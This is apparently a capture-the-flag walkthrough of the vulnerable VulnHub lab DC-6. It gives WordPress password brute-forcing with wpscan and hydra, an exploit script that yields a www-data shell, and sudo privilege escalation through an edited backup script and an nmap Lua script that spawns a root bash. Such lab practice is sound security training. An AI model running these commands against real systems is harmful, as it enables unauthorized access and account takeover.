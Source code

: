 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 22/december/2022

# DC-6

----------------------------------------------------------------
# nmap scan ()
----------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))


wordlist for wp login
from wordpress admin:test login try we know there is user called admin
lets bruteforce it
hint from the vulnhub
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt

bruteforce password attack
wpscan --url wordy --password-attack xmlrpc --passwords passwords.txt 

[SUCCESS] - mark / helpdesk01 

hydra command
 hydra -L users.txt -P passwords.txt 10.0.2.18 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30



reverse shell

python3 50110.py         
What's your target IP?
10.0.2.18
What's your username?                                                                                               
mark                                                                                                                
What's your password?                                                                                               
helpdesk01                                                                                                          
[*] Please wait...                                                                                                  
[*] Perfect!                                                                                                        
www-data@10.0.2.18  id                                                                                              
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                               
www-data@10.0.2.18                                                                                                  
Got a shell**
--
--
--
--
www-data@dc-6:/home$ cat /home/mark/stuff/things-to-do.txt
cat /home/mark/stuff/things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement

----------------------------------------------------------------
ssh login 
----------------------------------------------------------------
graham:GSo7isUM1D4
-> sudo -l
(jens) NOPASSWD: /home/jens/backups.sh
modify the /home/jens/backups.sh to get bash shell
/bin/bash
sudo -u jens /home/jens/backups.sh

now we are jens
sudo -l
we got nmap 
(root) NOPASSWD: /usr/bin/nmap
search gtfo bins

TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF

python -c 'import pty;pty.spawn("/bin/bash")'
congrats you got root

----------------------------------------------------------------
# flag
----------------------------------------------------------------
-> cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
